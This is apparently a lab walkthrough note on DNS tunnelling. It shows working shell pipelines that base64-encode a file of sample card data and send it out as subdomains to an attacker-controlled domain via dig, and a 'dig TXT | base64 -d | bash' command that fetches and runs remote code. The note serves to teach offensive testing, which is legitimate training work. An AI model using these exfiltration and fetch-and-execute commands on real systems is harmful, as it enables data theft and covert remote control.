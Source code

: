 # Exfiltration over DNS

Since `DNS` is not a transport protocol, many organisations do not regularly monitor the DNS protocol. 
The `DNS` protocol is allowed in almost all firewalls in any organisational network, although good organisations 
will have monitoring in place to detect it afterwards. The fabulous `dnscat2` is very easy to get up and running.

Some IDS/IDPs are now capable of spotting DNS tunnelling, but often miss data sent via DNS TXT records. Re-useful tools
are [Uninvited-Guest](https://github.com/pentestpartners/Uninvited-Guest), and its earlier, more raw version 
[DNSTXT-encoder](https://github.com/pentestpartners/DNSTXT-encoder).

There are many use case scenarios, but the typical one is when the firewall blocks and filters all traffic. We can 
pass data or `TCP/UDP` packets through a firewall using the `DNS` protocol, but it is important to ensure that the 
`DNS` is allowed and resolving domain names to IP addresses.

* An attacker registers a domain name, for example, [tunnel.com](red-testlab:docs/exfiltration/thm-conf) 
* The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
* The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.
* The `DNS` request is sent through the local `DNS` server and is forwarded through the Internet.
* The attacker's authoritative `DNS` (malicious server) receives the `DNS` request.
* Finally, the attacker extracts the password from the domain name.

## DNS Data Exfiltration

* Get the required data that needs to be transferred.
* Encode the file using one of the encoding techniques.
* Send the encoded characters as subdomain/labels.
* Consider the limitations of the `DNS` protocol. Note that we can add as much data as we can to the domain name, but 
we must keep the whole URL under 255 characters, and each subdomain label ca not exceed 63 characters. If we do 
exceed these limits, we have to split the data and send more `DNS` requests.

Connect to the new thm attacker machine using ssh from the jump host:

    thm@jump-box$ ssh thm@attacker.thm.com

Capture DNS requests:
	
    thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
    tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

Open a new terminal, ssh jump to victim2 from the jump host:

    thm@jump-box$ ssh thm@victim2.thm.com

Check the content of the `creds.txt` file:

    thm@victim2$ cat task9/credit.txt
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

Encode:

    thm@victim2$ cat task9/credit.txt | base64
    TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
    MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

Split the content into multiple DNS requests:

    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    TmFtZTogVEhNLXVzZX.att.tunnel.com
    IKQWRkcmVzczogMTIz.att.tunnel.com
    NCBJbnRlcm5ldCwgVE.att.tunnel.com
    hNCkNyZWRpdCBDYXJk.att.tunnel.com
    OiAxMjM0LTEyMzQtMT.att.tunnel.com
    IzNC0xMjM0CkV4cGly.att.tunnel.com
    ZTogMDUvMDUvMjAyMg.att.tunnel.com
    pDb2RlOiAxMzM3Cg==.att.tunnel.com

* `tr -d "\n"` - remove newlines.
* `fold -w18` - every 18 characters in a group
* `sed -r 's/.*/&.att.tunnel.com/'` - append the name server `att.tunnel.com` to every group

Now split every 18 characters with a dot `.` and add the name server:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.comthm@victim2:~$ 

From the victim2 machine, send the base64 data as a subdomain name via `dig` taking DNS limitations into account:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

Open a new terminal, jump to the attacker machine and check results using `tcpdump`:

    thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
    [sudo] password for thm: 
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    16:06:05.923936 IP (tos 0x0, ttl 64, id 47515, offset 0, flags [none], proto UDP (17), length 104)
        172.20.0.1.43174 > attacker.domain: 19394% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
    16:06:05.924355 IP (tos 0x0, ttl 64, id 47516, offset 0, flags [none], proto UDP (17), length 235)
        172.20.0.1.36730 > attacker.domain: 33745% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
    16:06:05.926140 IP (tos 0x0, ttl 64, id 28057, offset 0, flags [DF], proto UDP (17), length 69)
        attacker.57010 > 172.20.0.1.domain: 53575+ PTR? 1.0.20.172.in-addr.arpa. (41)
    16:06:05.926243 IP (tos 0x0, ttl 64, id 47517, offset 0, flags [DF], proto UDP (17), length 123)
        172.20.0.1.domain > attacker.57010: 53575 NXDomain* 0/1/0 (95)

Clean and restore the received data:

    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

## C2 communications over DNS

In victim2, create a `script.sh` in `/tmp`:

    thm@victim2:~$ cd /tmp/
    thm@victim2:/tmp$ nano script.sh

The code for `script.sh`:

    #!/bin/bash 
    ping -c 1 test.thm.com

Encode the script:

    thm@victim2:~$ cat /tmp/script.sh | base64
    IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K

Add it as a `TXT` `DNS` record to the `tunnel.com` domain using the web interface provided: http://MACHINE_IP/

Confirm it was added successfully:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com
    "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

Run the script (clean using `tr` and deleting any double quotes `"`):

    thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    PING test.thm.com (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
    
    --- test.thm.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms

Get the flag:

    thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
